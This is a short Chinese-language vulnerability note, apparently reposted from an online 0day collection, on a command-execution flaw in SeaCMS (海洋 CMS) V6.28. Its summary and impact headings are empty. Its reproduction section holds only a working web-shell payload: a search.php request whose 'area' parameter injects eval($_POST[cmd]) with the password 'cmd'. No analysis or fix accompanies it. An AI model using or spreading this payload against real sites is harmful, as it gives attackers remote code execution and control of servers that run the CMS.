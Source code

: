 # 海洋 CMS V6.28 命令执行

> 原文：[http://book.iwonder.run/0day/Seacms/海洋 CMS V6.28.html](http://book.iwonder.run/0day/Seacms/海洋 CMS V6.28.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
一句话 payload，密码 cmd:

http://0-sec.org/search.php?searchtype=5&tid=&area=eval($_POST[cmd]) 
```

